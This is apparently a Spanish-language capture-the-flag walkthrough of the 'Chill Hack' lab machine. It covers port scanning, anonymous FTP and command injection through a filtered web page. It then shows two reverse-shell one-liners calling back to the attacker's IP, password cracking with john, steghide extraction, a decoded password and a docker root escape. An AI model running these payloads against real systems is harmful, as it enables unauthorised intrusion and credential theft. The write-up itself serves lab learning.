Chill Hack¶
Enumeration¶
Nmap¶
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.165.6 -oN allPorts.txt
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
nmap -sC -sV -O -p21,22,80 -Pn 10.10.165.6 -oN targeted.txt
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.9.244.36
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 4
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 1001 1001 90 Oct 03 2020 note.txt
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| 256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_ 256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
nmap --script=ftp-anon -p21 10.10.165.6 -oN scanFTP.txt
PORT STATE SERVICE
21/tcp open ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 1001 1001 90 Oct 03 2020 note.txt
FTP¶
ftp 10.10.165.6
dir
-rw-r--r-- 1 1001 1001 90 Oct 03 2020 note.txt
get note.txt

cat note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
HTTP¶
whatweb http://10.10.165.6

gobuster dir -u http://10.10.165.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 php,js,html,txt

Encontramos una ruta oculta en la cual es posible ejecutar algunos comandos


Bypass Linux Restrictions
id
whaomi;ls -la
whoami;cat /etc/passwd


Exploit¶
Probamos posibles revshell
whoami;bash -i >& /dev/tcp/10.9.244.36/443 0>&1
whoami;php -r '$sock=fsockopen("10.9.244.36",443);exec("/bin/sh -i <&3 >&3 2>&3");'


Comprobamos en que versión de linux estamos
uname -a
uname -r
cat /etc/*-release
lsb_release -a



Privilege Escalation¶
Vemos si tenemos permisos sudo en algún lugar

Ejecutamos el ejecutable para ver si podemos elevar nuestros privilegio de usuario.
sudo -u apaar /home/apaar/.helpline.sh

Como python esta instalado cambiamos para obtener una bin/bash
python3 -c "import pty;pty.spawn('/bin/bash')"

comprobar si tenemos permisos suid en alguno archivo
find / -perm -4000 -ls 2>/dev/null

explorando encontramos un carpeta interesante, con el uso de python vamos a compartir esta carpeta




con steghide podemos si la imagen tiene algún contenido oculto
steghide extract -sf hacker-with-laptop_23-2147985341.jpg

zip2john backup.zip > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt


echo IWQwbnRLbjB3bVlwQHNzdzByZA== > b64
base64 -d b64
!d0ntKn0wmYp@ssw0rd
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rd



Comprobamos si es posible elevar privilegios al tener permisos en docker
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
